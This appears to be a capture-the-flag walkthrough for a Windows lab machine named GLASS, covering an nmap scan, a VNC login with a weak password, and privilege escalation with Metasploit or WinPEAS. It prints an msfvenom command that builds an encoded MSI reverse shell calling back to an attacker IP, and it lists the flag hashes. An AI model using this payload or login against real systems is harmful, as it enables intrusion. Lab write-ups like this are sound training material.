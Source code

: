 # GLASS

![](../.gitbook/assets/4e5f0cdb19cc40a0a65719d94b5f9409.png)

## NMAP SCAN

```text
PORT      STATE SERVICE       REASON          VERSION
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
5800/tcp  open  vnc-http      syn-ack ttl 127 TightVNC (user: glass; VNC TCP port: 5900)
| http-methods: 
|_  Supported Methods: GET
|_http-title: TightVNC desktop [glass]
5900/tcp  open  vnc           syn-ack ttl 127 VNC (protocol 3.8)
| vnc-info: 
|   Protocol version: 3.8
|   Security types: 
|     VNC Authentication (2)
|     Tight (16)
|   Tight auth subtypes: 
|_    STDV VNCAUTH_ (2)
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49676/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

## VNC ENUMERATION

![](../.gitbook/assets/724fc0356d76442090df6858d2621c52.png)

```text
<blank>:password
```

### CONNECTING

```text
vncviewer 172.31.1.25:5900
```

![](../.gitbook/assets/b9999795453c4667810ab4862f3ad6b7.png)

![](../.gitbook/assets/46b9c145344a4fdfacf992b2913dd7ca.png)

## PRIVESC

### USING METASPLOIT

* AFTER UPLOAD A METERPRETER REVERSE SHELL RUN SUGGESTER

![](../.gitbook/assets/4aa022df715b452185a906a47c568609.png)

![](../.gitbook/assets/7678e7727b424b56bfd72311dde08283.png)

![](../.gitbook/assets/b6fba7ab31e340ffa6f5f64e873dc138.png)

### WITHOUT METASPLOIT

#### WINPEAS

![](../.gitbook/assets/27b62d66d12443b4b35513c88b94c7ab.png)

* [https://dmcxblue.gitbook.io/red-team-notes/privesc/unquoted-service-path](https://dmcxblue.gitbook.io/red-team-notes/privesc/unquoted-service-path)

  ```text
  msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.10.0.63 LPORT=5555 --encoder x64/xor --iterations 9 --format msi --out alwe.msi

  ```

![](../.gitbook/assets/69e8c97bb8f34a44b6312d0586e9bdee.png)

![](../.gitbook/assets/d11bdf69d4e649c9879f4c929ef9c84c.png)

## FLAGS

### USER

```text
6c872f27e7848097568abb0ca181e988
```

### ROOT

```text
39065a2f433f9b7d3fbbcd6e4fbd0a8e
```

![](../.gitbook/assets/f32977a349284be88d518e76148423c6.png)

